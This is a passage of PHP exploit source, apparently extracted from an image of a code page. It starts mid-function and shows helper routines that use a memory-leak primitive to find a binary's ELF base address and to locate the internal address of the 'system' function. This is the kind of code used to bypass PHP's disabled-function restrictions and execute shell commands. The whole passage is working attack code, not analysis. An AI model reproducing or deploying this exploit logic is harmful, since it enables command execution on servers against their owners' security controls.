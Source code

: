 ```php
​      } else continue;

 

​      return $data_addr + $i * 8;

​    }

  }

 

  function get_binary_base($binary_leak) {

​    $base = 0;

​    $start = $binary_leak & 0xfffffffffffff000;

​    for($i = 0; $i < 0x1000; $i++) {

​      $addr = $start - 0x1000 * $i;

​      $leak = leak($addr, 0, 7);

​      if($leak == 0x10102464c457f) { # ELF header

​        return $addr;

​      }

​    }

  }

 

  function get_system($basic_funcs) {

​    $addr = $basic_funcs;

​    do {

​      $f_entry = leak($addr);

​      $f_name = leak($f_entry, 0, 6);

 

​      if($f_name == 0x6d6574737973) { # system

​        return leak($addr + 8);

​      }

​      $addr += 0x20;

​    } while($f_entry != 0);

​    return false;

  }

 
```